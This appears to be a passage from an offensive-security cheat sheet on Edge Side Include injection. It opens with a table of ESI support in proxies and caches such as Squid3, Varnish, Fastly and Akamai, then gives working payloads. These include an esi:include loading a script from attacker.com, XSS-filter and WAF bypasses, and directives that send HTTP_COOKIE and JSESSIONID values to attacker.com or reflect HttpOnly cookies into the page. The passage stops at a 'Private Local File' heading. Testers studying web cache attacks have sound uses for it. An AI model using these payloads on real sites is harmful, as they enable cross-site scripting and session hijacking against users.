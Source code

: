 |         **Software**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3            |      Yes     |    Yes   |     Yes     |              Yes              |         No         |
|         Varnish Cache        |      Yes     |    No    |      No     |              Yes              |         Yes        |
|            Fastly            |      Yes     |    No    |      No     |               No              |         Yes        |
| Akamai ESI Test Server (ETS) |      Yes     |    Yes   |     Yes     |               No              |         No         |
|          NodeJS esi          |      Yes     |    Yes   |     Yes     |               No              |         No         |
|         NodeJS nodesi        |      Yes     |    No    |      No     |               No              |      Optional      |

#### XSS

The following ESI directive will load an arbitrary file inside the response of the server

```xml
<esi:include src=http://attacker.com/xss.html>
```

#### Bypass client XSS protection

```xml
x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>

Use <!--esi--> to bypass WAFs:
<scr<!--esi-->ipt>aler<!--esi-->t(1)</sc<!--esi-->ript>
<img+src=x+on<!--esi-->error=ale<!--esi-->rt(1)>
```

#### Steal Cookie

* Remote steal cookie

```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>
<esi:include src="http://attacker.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />
```

* Steal cookie HTTP\_ONLY with XSS by reflecting it in the response:

```bash
# This will reflect the cookies in the response
<!--esi $(HTTP_COOKIE) -->
# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)
<!--esi/$url_decode('"><svg/onload=prompt(1)>')/-->

# It's possible to put more complex JS code to steal cookies or perform actions
```

#### Private Local File

Do not confuse this with a "Local File Inclusion":
